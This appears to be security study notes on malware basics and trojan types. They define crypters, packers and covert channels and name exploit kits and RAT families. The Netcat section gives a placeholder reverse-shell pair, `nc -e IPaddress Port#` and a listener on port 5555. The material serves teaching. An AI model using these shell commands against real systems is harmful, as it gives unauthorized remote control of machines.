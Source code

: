 # Trojans and Other Attacks

### <u>Malware Basics</u>

- **Malware** - software designed to harm or secretly access a computer system without informed consent
  - Most is downloaded from the Internet with or without the user's knowledge
- **Overt Channels** - legitimate communication channels used by programs
- **Covert Channels** - used to transport data in unintended ways
- **Wrappers (or binders)** - programs that allow you to bind an executable to an innocent file
- **Crypters** - use a combination of encryption and code manipulation to render malware undetectable to security programs
- **Packers** - use compression to pack the executable which helps evage signature based detection
- **Exploit Kits** - help deliver exploits and payloads
  - Infinity
  - Bleeding Life
  - Crimepack
  - Blackhole Exploit Kit

### <u>Trojans</u>

- **Trojans** - software that appears to perform a desirable function but instead performs malicious activity
  - To hackers, it is a method to  gain and maintain access to a system
  - Trojans are means of delivery whereas a backdoor provides the open access
- **Types**
  - **Defacement trojan**
  - **Proxy server trojan**
  - **Botnet trojan**
    - Chewbacca
    - Skynet
  - **Remote access trojans**
    - RAT
    - MoSucker
    - Optix Pro
    - Blackhole
  - **E-banking trojans**
  	- Zeus
  	- Spyeye
  - **Command Shell Trojan** - Provides a backdoor to connect to through command-line access
    - Netcat
- **Covert Channel Tunneling Trojan** (CCTT) - a RAT trojan; creates data transfer channels in previously authorized data streams
- **Netcat**
  - "Swiss army knife" of TCP/IP hacking
  - Provides all sorts of control over a remote shell on a target
  - Connects via `nc -e IPaddress Port#` to establich command-line access
  - From attack machine `nc -l -p 5555` opens a listening port on 5555
  - Can connect over TCP or UDP, from any port
  - Offers DNS forwarding, port mapping and forwarding and proxying
- **Trojan Port Numbers**
